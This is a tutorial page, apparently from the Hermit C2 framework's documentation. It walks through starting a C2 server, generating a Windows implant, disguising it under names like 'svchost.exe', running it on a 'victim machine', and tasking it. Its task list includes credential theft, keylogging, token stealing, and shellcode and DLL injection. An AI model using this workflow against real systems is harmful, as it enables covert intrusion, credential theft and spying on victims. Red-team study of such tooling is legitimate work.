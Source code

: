 # Simple Implant Beacon

⚠️ **Due to major updates to the project, this tutorial may contain slightly inaccurate information. Please wait for a while until it is updated.**

---

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

## 2. Start HTTPS Listener

![listener start](../assets/images/terminal/listener_start.png)

## 3. Generate Implant Payload

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with your own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds, the agent checked in and listed on the C2 server.  
You can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get the Result

In Agent Mode, you can send tasks and get results.  
To see what tasks are available, run `?` or `help` command.  
Currently, the following tasks are available:

```txt
TASK
====

  cat          <FILE>       : Print the contents of a file
  cd           <DIR>        : Change the working directory
  connect      <URL>        : Change listener URL to connect
  cp           <SRC> <DEST> : Copy a file
  creds steal               : Steal credentials from various resources on the target computer
  dll          <PID> <FILE> : Load DLL and inject modules into the specified process
  download     <SRC> <DEST> : Download a file from the target computer
  env                       : Print environment variables
  execute      <CMD>        : Execute a system command on target computer
  groups                    : Print all local groups
  history                   : Retrieve information from history files of applications
  ip                        : Get the network interface information on target computer
  jitter       <NUM>        : Set jitter time (seconds) between requests from beacon
  keylog       <NUM>        : Keylogging for N seconds
  kill                      : Terminate the implant process
  ls           <DIR>        : List files in a directory
  migrate      <PID>        : Migrate the implant into another process
  mkdir        <DIR>        : Create a new directory
  mv           <SRC> <DEST> : Move a file to a destination location
  net                       : Get TCP connections
  procdump     <PID>        : Dump process memory to a specified output file
  ps                        : List processes that are running
  ps kill      <PID>        : Kill a specified process
  pwd                       : Print the current working directory
  reg subkeys               : Enumerate subkeys for the specified open registry key
  reg values                : Enumerate the specified registry values.
  rm           <FILE>       : Remove a file
  rmdir        <DIR>        : Remove a directory
  rportfwd add              : Reverse port forwarding with the specified remote ip/port
  rportfwd ls               : List settings for reverse port forwarding
  rportfwd rm               : Stop and remove listener for reverse port forwarding
  runas        <USER> <CMD> : Execute a program as another user
  screenshot                : Take a screenshot on target computer
  shellcode    <PID> <FILE> : Inject shellcode into the specified process
  sleep        <NUM>        : Set sleep time (seconds) between requests from beacon
  token revert              : Revert back to the original process token
  token steal  <PID>        : Steal token from the specified process and impersonate process
  upload       <SRC> <DEST> : Upload a file to the target computer
  users                     : Print all local users
  whoami                    : Print the current user name
  whoami priv               : Print the current user privileges

  task clear                : Remove all tasks from waitlist
  task list                 : List tasks waiting for the results
  tasks                     : Alias for 'task list'
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After few seconds, if the task is successful, you can see the task results with the `loot` command:

![loot](../assets/images/terminal/loot.png)

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After enumerations, stop the implant with the `kill` command:

```sh
Hermit > kill
```

Then run `exit` command to quit the agent mode.

